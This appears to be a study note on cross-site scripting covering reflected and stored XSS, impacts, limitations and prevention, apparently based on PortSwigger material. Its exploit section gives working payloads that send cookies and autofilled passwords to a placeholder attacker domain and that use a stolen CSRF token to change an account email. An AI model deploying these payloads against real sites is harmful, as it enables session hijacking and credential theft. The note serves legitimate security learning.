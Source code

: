 # Cross-site scripting (XSS) :twisted_rightwards_arrows:

Allows an attacker to masquerade as a victim user and perform actions on their behalf.  Works by injecting malicious scripts into a website that execute in the victim's browser.

To test for XSS, inject the JavaScript `alert()` or `print()` function to see if they execute.  If yes, then XSS is possible.

:warning: Note that `print()` is now preferable as some browsers are disabling `alert()`.

## Reflected XSS

Malicious script comes from the current HTTP request:
```http
GET https://insecure-website.com/status?message=<script>print()</script>

# Results
<p>Status: <script>print()</script></p>
```

If the user follows the above URL, the script will execute in their browser.

### Impact

- Perform any action on behalf of the victim with their current session
- View and modify any data the victim can view/modify
- Initiate attacks on other users that will appear to come from the victim

### Limitations

The malicious URL must be delivered to the victim, and executed by them in a context where it can cause damage (e.g. in an authenticated session).

Delivery can be via infected links on other sites, email, text, social media, etc.

## Stored XSS

Persistent or second-order XSS.  Caused by a malicious script being stored and executed by the victim in the future.  An example is a malicious comment on a blog post.

Safe comment:

```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100

postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net
```

Malicious comment:

```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100

postId=3&comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E&name=Carlos+Montoya&email=carlos%40normal-user.net
```

### Impact

- Same impacts as reflected XSS with added benefits of:
   - Attacker does not need to find an external method to have the user visit a malicious URL.  They wait for the user to visit the vulnerable site.
   - User will likely be logged in when the malicious script executes.

## Exploit

### Stealing cookies

Steal the user's site cookies, inject them into a new browser session and perform actions on their behalf.

```javascript
// Inject into a link the user will click
<script>
fetch('https://attacker-comain.com', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
});
</script>
```

#### Limitations:

- User must have an active session
- Application may have blocked JavasScript cookie access with `HttpOnly` flag.
- User session may have additional protections (CSRF, MFA, IP based restrictions).
- User session may time out before it can be hijacked.

### Capturing passwords from password managers

If a password manager is installed, the password field will be pre-filled with the user's password.  This can then be sent back to the attacker.

```html
<!-- Create a a content post (e.g. comment on a blog).
     The password manager will auto-fill these when the page loads. -->
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://attacker-domain.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

#### Limitations:

- User must have a password manager installed.
- If MFA is enabled on the user's account, the attack becomes more difficult.

### Use XSS to perform CSRF

Perform actions on behalf of a user, such as changing their account email and then triggereing a password reset to gain access.

```html
<!-- Create a a content post (e.g. comment on a blog).
     Trigger a change email request when the page loads. -->
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=attacker@naughty.com')
};
</script>
```

## Prevent

- Filter all input as strictly as possible.
- Encode data when output to prevent it being interpreted as HTML.
- Use reponse headers to prevent XSS with `Content-Type` and `X-Content-Type-Options` if the response is not HTML.
- Use a Content Security Policy (CSP) to prevent the execution of malicious scripts.

## Tools

- [Burp Collaborator (pro)](https://portswigger.net/burp/documentation/collaborator)

## References

- https://portswigger.net/web-security/cross-site-scripting
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
- https://portswigger.net/research/alert-is-dead-long-live-print

